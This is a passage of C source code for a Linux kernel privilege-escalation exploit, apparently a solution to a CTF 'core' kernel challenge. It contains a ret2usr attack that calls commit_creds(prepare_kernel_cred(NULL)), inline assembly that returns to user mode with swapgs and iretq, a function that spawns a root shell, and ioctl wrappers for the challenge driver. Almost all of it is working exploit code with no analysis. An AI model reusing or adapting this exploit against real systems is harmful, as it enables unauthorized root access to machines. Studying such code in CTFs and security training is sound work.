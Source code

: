 ```c
        "pop user_rflags;"
    );
    log_success("[*] Status has been saved.");
}

void get_root_shell(void)
{
    if(getuid()) {
        log_error("[x] Failed to get the root!");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    log_success("[+] Successful to get the root.");
    log_info("[*] Execve root shell now...");

    system("/bin/sh");
    
    /* to exit the process normally, instead of potential segmentation fault */
    exit(EXIT_SUCCESS);
}

void* (*prepare_kernel_cred_kfunc)(void *task_struct);
int (*commit_creds_kfunc)(void *cred);

void ret2usr_attack(void)
{
    prepare_kernel_cred_kfunc = (void*(*)(void*)) prepare_kernel_cred;
    commit_creds_kfunc = (int (*)(void*)) commit_creds;

    (*commit_creds_kfunc)((*prepare_kernel_cred_kfunc)(NULL));

    asm volatile(
        "mov rax, user_ss;"
        "push rax;"
        "mov rax, user_sp;"
        "sub rax, 8;"   /* stack balance */
        "push rax;"
        "mov rax, user_rflags;"
        "push rax;"
        "mov rax, user_cs;"
        "push rax;"
        "lea rax, get_root_shell;"
        "push rax;"
        "swapgs;"
        "iretq;"
    );
}

/**
 * Challenge Interface
**/

void core_read(int fd, char *buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void set_off_val(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

```